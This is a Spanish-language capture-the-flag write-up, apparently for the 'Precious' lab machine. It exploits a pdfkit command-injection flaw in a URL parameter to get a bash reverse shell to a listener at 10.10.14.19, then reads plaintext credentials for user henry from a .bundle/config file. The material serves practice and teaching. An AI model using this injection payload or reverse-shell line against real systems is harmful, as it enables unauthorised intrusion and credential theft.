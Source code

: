 ```bash
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```
Al hacer una simple busqueda por google, nos encontramos con este [articulo](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)

Al usar este payload, debemos cambiar el sleep por una reverse shell.



```bash
http://example.com/?name=#{'%20`sleep 5`'}
```
Nos quedaría de esta manera.
```bash
http://example.com/?name=#{'%20`bash -c "bash -i >& /dev/tcp/10.10.14.19/444 0>&1"`'}
```

Una vez enviada la petición nos llega la reverse shell


```bash
❯ nc -lvnp 444
listening on [any] 444 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.11.189] 47004
bash: cannot set terminal process group (676): Inappropriate ioctl for device
bash: no job control in this shell
ruby@precious:/var/www/pdfapp$ 
```

Aplicamos un tratamiento a la [TTY](https:://h4ckerlite.github.io/posts/tty)
## Migrando de Usuario

Somos el usuario `ruby`, si miramos en el directorio *home* por archivos ocultos nos encontramos con esto

```bash
ruby@precious:~$ ls -la
total 32
drwxr-xr-x 5 ruby ruby 4096 Feb 19 12:28 .
drwxr-xr-x 4 root root 4096 Oct 26 08:28 ..
lrwxrwxrwx 1 root root    9 Oct 26 07:53 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26 08:28 .bundle
drwxr-xr-x 4 ruby ruby 4096 Feb 19 08:27 .cache
drwxr-xr-x 3 ruby ruby 4096 Feb 19 12:28 .local
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
```

Si leemos lo que exixte dentro de esa carpeta vemos las credenciales del usuario henry


```bash
ruby@precious:~$ cat .bundle/config 
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```
Migramos de usuario

